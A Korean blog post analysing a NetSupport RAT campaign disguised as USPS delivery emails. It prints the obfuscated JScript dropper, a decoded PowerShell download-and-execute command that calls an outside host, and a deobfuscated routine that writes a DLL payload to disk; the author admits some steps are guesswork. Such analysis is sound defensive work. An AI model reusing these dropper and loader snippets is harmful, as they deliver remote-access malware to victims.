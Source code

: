 +++
title = "USPS 위장 NETSUPPORT RAT 악성코드.pdf"
date = "2025-01-29T16:39:52+09:00"
author = "sayoon"
tags = ["악성코드분석"]
keywords = ["메일 위장", "악성코드"]
description = "USPS 패키지 배송 관련 메일로 위장한 악성코드"
showFullContent = false
readingTime = false
hideComments = false
+++

> **3줄 요약**
>
> 1. 실행 시 `winlogdate.exe` 파일 드롭
> 2. 레지스트리 수정으로 로그인 마다 실행
> 3. 통신 및 원격 접속으로 개인정보 탈취

### 분석 파일

- 파일: [link](https://www.malware-traffic-analysis.net/2022/12/28/index.html)

**_발퀄 및 건너짚기가 남발하는 문서임니당_**

<br>

## 1. 배포 경로

![email](image.webp)

이 악성코드의 시작점은 이메일이다.  
아래 그림과 같이 운송업체 USPS를 위장한 메일을 보내 사용자가 외부 링크로 접속하도록 유도한다.

<br/>

## 2. 패킷 분석

사용자가 <kbd>Download Details</kbd>를 클릭하면 **lbbyqluzu.cracknight.ru**로 연결된다.  
이후 `302` 상태 코드를 받고 **patrickforeilly.com**으로 리다이렉트 된다

![packet](image-1.webp)

위 사진을 보면 **patrickforeilly.com**에서 `application/zip` 타입의 콘텐츠를 요청하고 있다.  
해당 파일을 확인한 결과, 아래와 같이 `javascript`파일을 담고 있는 것을 확인 할 수 있다

![alt text](image-2.webp)
![alt text](image-3.webp)

<br/>

## 3. 파일 분석

### 1) `4043_PCM.js` 파일

`4043_PCM.js` 파일은 난독화 된 `js`파일로, `eval` 명령어를 확인할 수 있었다.
이를 치환하면 아래와 같은 파일을 얻을 수 있었다.

```none
//UmExrsgJuDvLhVadkAWOTICPXF oMKilXfTnLOHCUhAFBP = "sheLl"; YZqOsTxnMmpABJCF = new
ActiveXObject(oMKilXfTnLOHCUhAFBP+"."+ //IxqOgMKi "ApPlIcAtIon"); FkLgcBCiVTGsmxdvpeb = new
ActiveXObject("SCRiPtIng.filesystemobJECt"); if (FkLgcBCiVTGsmxdvpeb.FolderExists("C:\\pROgRa"+ //IxqOgMKi
"mdAta\\mIcRosOft\\wINdoWs")) { //YhALZvBkfyGVcEPoHRNqIM YZqOsTxnMmpABJCF.ShellExecute("cmd", "/c"+ //IxqOgMKi "
Power"+oMKilXfTnLOHCUhAFBP+" -nop -w hidden "+ //IxqOgMKi "-ep bypaSS -enC SQ"+ //IxqOgMKi "BFAFgAIAAoA"+
//IxqOgMKi "E4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAb"+ //IxqOgMKi
"gB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHI"+ //IxqOgMKi "AaQBuAGcAKA"+ //IxqOgMKi "AiAGgAdAB0AHAA"+ //IxqOgMKi
"OgAvAC8"+ //IxqOgMKi "AMQBvAHQ"+ //IxqOgMKi "AYQBsAC4AYwBvAG0ALwBpAG4AZABlAHgALwBpAG4AZA"+ //IxqOgMKi
"BlAHgALgBwAGgAcAAiACkA", "", "open", 0); } //kdbyVceRuXIHitqmTjngWxOZAG
```

위 코드를 보기 쉽게 풀면,

```js
UmExrsgJuDvLhVadkAWOTICPXF oMKilXfTnLOHCUhAFBP = "shell";
YZqOsTxnMmpABJCF = new ActiveXObject(“shell” + ".Application");
FkLgcBCiVTGsmxdvpeb = new ActiveXObject("scripting.filesystemobject");
if (FkLgcBCiVTGsmxdvpeb.FolderExists("C:\\pROgRa" + "mdAta\\mIcRosOft\\wINdoWs")) {
	YZqOsTxnMmpABJCF.ShellExecute("cmd", "/c Power" + sheLl + " -nop -w hidden -epbypass -enC SQ...", "", "open", 0);
}
```

변수 `UmExrsgJuDvLhVadkAWOTICPXF oMKilXfTnLOHCUhAFBP`, `YZqOsTxnMmpABJCF`, `FkLgcBCiVTGsmxdvpeb`를 이용해 난독화된 변수명을 다시 바꿔주면,

```javascript
if (
  ActiveXObject("scripting.filesystemobject").FolderExists(
    "C:ProgramData\\MicrosoftWindows"
  )
) {
  ActiveXObject("scripting.filesystemobject").ShellExecute(
    "cmd",
    "/c Powershell -nop -w hidden -ep bypass -enC ...",
    "open",
    0
  );
}
```

이는 `C:\ProgramData\\Microsoft\Windows` 경로가 존재한다면, `Powershell `을 실행하는 명령어이다.

- `-w hidden` 옵션으로 `Powershell` 이 백그라운드에서 실행되도록 하고,
- `-enC` 옵션으로 `base64` 로 인코딩 된 명령어를 실행하므로

마지막 인자를 확인하면 어떤 `Powershell` 명령을 실행하는지 알 수 있다.

마지막 인자는 아래와 같고

```none
SQ"+ //IxqOgMKi "BFAFgAIAAoA"+ //IxqOgMKi "E4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAb"+
//IxqOgMKi "gB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHI"+ //IxqOgMKi "AaQBuAGcAKA"+ //IxqOgMKi "AiAGgAdAB0AHAA"+
//IxqOgMKi "OgAvAC8"+ //IxqOgMKi "AMQBvAHQ"+ //IxqOgMKi "AYQBsAC4AYwBvAG0ALwBpAG4AZABlAHgALwBpAG4AZA"+ //IxqOgMKi
"BlAHgALgBwAGgAcAAiACkA
```

필요 없는 문자열 `//Ixq0gMKi`를 지우고,
`base64`로 디코딩하면

```powershell
IEX(New-Object Net.Webclient).downloadstring("http://1otal.com/index/index.php")
```

라는 명령어가 나오는데, 이는 `http://1otal.com/index/index.php` 에서 스크립트를 다운 받아 실행하는 윈도우 powershell 명령어이다.

> 종합하자면, `4043_PCM.js` 파일은 난독화된 `javascript` 파일을 `eval`을 이용하여 실행하는데,  
> 특정 `url`에서 `php`를 다운받아 `powershell`로 실행하는 악성 스크립트이다.

<br/>

### 2) **index.php**

![alt text](image-4.png)

네트워크 패킷에서 추가적으로 `index.php`를 요청하는 것을 볼 수 있다.
해당 요청은 `text/html`로 아래와 같은 코드를 확인 할 수 있었는데

```powershell
function rEacT (${sOuRce}, ${deSTiNAtION})

{
&("{3}{O}{1}{2}{4}{5}"-f * '-', 'St', 'ring', 'Convert', 'oBinar', 'y', 'T') -InputString ${sOURce} -FilePath $
{destINATiON};

}

function coNVErt-STRINGTOBiNARy
¢

${iNDUTStRInG}, ${FilepATh}
)

${FiLe}= ${INPuTSTrInG}

${DATA} = ${328Nq}::("{3}{1}{2H0}" -f 'g', 'romBas' , 'e64Strin', 'F').Invoke(${FI1E})

${MS} = &("{1}{O}{2}"-f '-Objec','New','t') ("{4}{3H1HO}{2}" -f 're','St', 'am', 'I0.Memory' , 'System. ')

${mS}. ("{O}{1}" -f 'Wri', 'te').Invoke(${dATa}, 0, ${DATA}."LeNGtH")
${ms}.("{O}{1}" -f 'S','eek').Invoke(0,0) | &("{O}{1}" -f'Out-Nu', 'LL')

${cS} = &("{O}{2}{1}{3}"-F'Ne",'-",'w', Object') ("{OHSHEHIHSH3H2H7HI{4}"-f 'S',"pStrea','ion.GZ','s',
'm','ystem.10','.Com','i','res','p')(${ms},  (&("{2}{1}{0}" -f "ARIABLE','-v','get') ('1L'+'VbgH') -vAL )
::"dEcOMpREss")

${Sr} = &("{OH{2H{1}" -f 'New-Obj','ct','e') (“{4}{1}{6}{0}{3}{5}{2}"-f *.10.Stre','e','der','a', Syst', 'mRea',
*m')(${cS})
${t} = ${Sr}.("{0}{1}{2}"-f' read', 'toen','d').Invoke()

${bYTeARRAy} = (&("{1}{2}{0}" -f 'abLE','g',"Et-vaRI') ("3"+"28Nq") -VaLuEonly )::("{O}{3}{1}{2}"-f 'FromBase*
*ri','ng','64St").Invoke(${t});
( &("{O}{1}{2}"-F'GET-",i','Tem') (“vAriABL"+"E:uE"+"4yC")) . "VALUE": : ("{3}{1}{4}{2}{0}"-f Bytes', 'rit', 'ALL',
'w',"e').Invoke(${FIlepAth}, ${bYTEarRAy});

```

이는 window `powershell` 문법으로

- **rEacT**
- **coNVErt-STRINGTOBiNARy**

두 개의 함수를 확인할 수 있었다.  
그런데 `convert-stringtobinary`만 봐도 뭔가 수상하다!  
뭔가 문자열로 바이너리 파일을 만들 것 같다!

`powershell` 문법에서

- `"{3}{O}{1}{2}{4}{5}"`: 문자열이 포매팅 될 위치
- `{n}`: `-f` 뒤에 나열된 값들의 인덱스 참조
- `&`: 문자열을 명령으로 실행

하는 역할을 가지고 있다. 따라서 저 난독화된 문자열들은  
`powershell`의 함수와 변수들일 것으로 추정할 수 있다!

이를 바탕으로 변환하면

```php

function React (${source}, ${destination}) {
	ConvertStringToBinary -InputString ${source} -FilePath ${destination}
}

function ConvertStringToBinary (${inputString}, ${FilePath}) {
	$file = ${inputString}
	$data = System.Conver::FromBase64String.Invoke(${file})

	# 입력 데이터를 메모리 스트림으로 초기화
	$ms = New-Object System.IO.MemoryStream

	# 데이터를 메모리 스트림에 기록
	$ms.Write($data, 0, $data.Length)
	$ms.Seek(0, 0) | Out-Null

	# GZipStream 객체를 생성하여 압축 해제 준비
	$cs = New-Object System.IO.Compression.GZipStream($ms, [System.IO.Compression.CompressionMode]::Decompress)

	# StreamReader를 사용하여 압축 해제된 데이터를 읽음
	$sr = New-Object System.IO.StreamReader($cs)
	$t = $sr.ReadToEnd()

	# Base64 디코딩을 수행하여 바이트 배열로 변환
	$byteArray = [Convert]::FromBase64String($t)

	# 최종 데이터를 파일로 저장
	[System.IO.File]::WriteAllBytes($FilePath, $byteArray)
}

${destination} = "$fpath\HTCTL32.DLL"

# 함수실행 (source는 확인할 수 없었음)
React -source ${source} -destination ${destination}
```

> 결론
> 이 코드는 `.zip` 파일로 된 파일을 읽어 압축 해제한 다음,  
> 해당 데이터를 `binary` 파일로 바꾸는 `powershell` 명령어!
